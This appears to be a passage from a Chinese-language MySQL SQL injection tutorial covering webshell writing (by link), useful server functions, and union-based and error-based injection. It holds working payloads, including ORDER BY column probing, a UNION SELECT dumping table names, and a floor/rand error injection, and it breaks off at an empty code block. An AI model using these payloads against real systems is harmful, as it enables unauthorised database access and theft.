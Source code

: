 其它写webshell方法:[Mysql写入Webshell](https://www.cnblogs.com/xuyangda/p/14510562.html)
### 0x03常用常量和函数
当前用户：     
`user()`
查询可写安全目录：      
`@@global.secure_file_priv`  
查询版本:    
`VERSION()`    
`@@VERSION`     
`@@GLOBAL.VERSION`     
服务器主机名：    
`@@HOSTNAME`      
## SQL注入漏洞利用
SQL注入利用类型主要分类：
- Union型注入
- 报错型注入
- Bool型盲注
- 时间型盲注
### 0x04 Union注入
#### 1.判断字段数
ORDER BY判断字段数。     
ORDER BY n+1; 让n一直增加直到出现错误页面。  
#### 2.寻找输出位
#### 3.构造EXP
Eg.  
``` 
 查询语句 SELECT username, password, permission FROM Users WHERE id = '1'; 
 1' ORDER BY 1--+ True 
 1' ORDER BY 2--+ True 
 1' ORDER BY 3--+ True 
 1' ORDER BY 4--+ False 
说明查询只用了3个字段。    
-1' UNION SELECT 1,2,3--+ True //在页面找到输出的字段值     
-1' UNION SELECT 1,GROUP_CONCAT(table_name),3 FROM information_schema.tables WHERE table_schema=database();
```
### 0x05 报错型注入
报错关键词有： floor、extractvalue、updatexml、geometrycollection、multipoint、polygon、multipolygon、linestring、multilinestring、ST_LatFromGeoHash、ST_LongFromGeoHash、GTID_SUBSET、GTID_SUBTRACT、ST_PointFromGeoHash
#### 1. floor方式
```
select 1,count(*),concat(0x3a,0x3a,(select user()),0x3a,0x3a,floor(rand(0)*2))a from information_schema.columns group by a;
```
释义:
>rand() 随机数函数 产生0-1的随机数
count(_) 计数
floor() 向下取整函数，舍去小数点，比如：floor(1.3)=1
floor(rand()_2) 结果只有0和1
group by name 按name的首位字典顺序排列
concat() 连接括号里面的内容
此处有三个点，一是需要count计数，二是floor，取得0 or 1，进行数据的重复，三是group by进行分组，但具体原理解释不是很通，大致原理为分组后数据计数时重复造成的错误。也有解释为mysql 的bug 的问题。但是此处需要将rand(0)，rand()需要多试几次才行。
#### 2. xpath函数
xpath处理函数:
__extractvalue__
__updatexml__
从mysql5.1.5开始提供两个XML查询和修改的函数，其中extractvalue负责在xml文档中按照xpath语法查询节点内容，updatexml则负责修改查询到的内容   
```
```